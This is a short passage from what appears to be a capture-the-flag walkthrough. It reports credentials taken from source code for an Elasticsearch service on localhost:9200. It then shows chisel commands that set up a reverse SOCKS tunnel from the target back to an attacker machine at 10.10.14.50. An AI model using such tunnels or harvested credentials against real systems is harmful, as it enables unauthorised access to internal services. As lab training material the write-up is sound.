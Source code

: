 We gather that Elastic is running on port 9200 on the localhost

We have a:

username: **user**

password: **DumpPassword\$Here**

The backslash (\\ before the dollar sign (\$) suggests that the dollar sign is intended to be treated as a literal character

rather than being interpreted as a variable

- Upload chisel - so we can access the site:
  - On Kali:
    
```bash
chisel server -p 8888 --reverse

```
- On target:
  
```bash
.\chisel.exe client 10.10.14.50:8888 R:socks

```

![image23](../resources/31faca3cd1b541cb93e2c03c09d180bc.png)

Login with the credentials

